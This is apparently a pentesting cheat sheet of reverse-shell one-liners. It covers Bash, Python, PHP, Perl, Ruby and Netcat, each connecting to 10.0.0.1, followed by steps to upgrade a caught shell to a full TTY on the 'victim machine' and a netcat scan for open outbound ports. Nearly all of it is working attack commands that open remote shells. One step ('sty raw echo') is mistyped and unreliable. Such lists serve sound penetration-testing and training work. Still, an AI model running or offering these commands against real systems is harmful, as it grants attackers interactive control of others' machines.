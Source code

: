 # Reverse shell

**1. Reverse shell list**  

	Bash  
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

	Python  
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

	Php  
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

	Perl  
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

	Ruby  
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat  
	nc -e /bin/sh 10.0.0.1 1234
	(Really like this one)
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 

**== Upgrading half shells to fully interactive TTYs without closing nc session. ==**

python -c 'import pty; pty.spawn("/bin/bash")'

background remote shell with Ctrl+Z    // on victim machine

stty -a | grep rows    //on attacking machine  
speed 38400 baud; rows 55; columns 205; line = 0;  
echo $TERM     // on attacking machine  
sty raw echo   // attacking machine  
fg             // attacking machine  
reset          // attacking machine  
export TERM=xterm-256color //on victim machine  
export SHELL=BASH          //on victim machine  
stty rows 55 columns 205   //on victim machine. See stty -a  

**TBC. Check which port is allowed for reverse shell** 

	sometime certain out going traffic is blocked by your victim   
	nc -nvv -w 1 -z "Your IP Address" 1-100  
	open Wireshark  

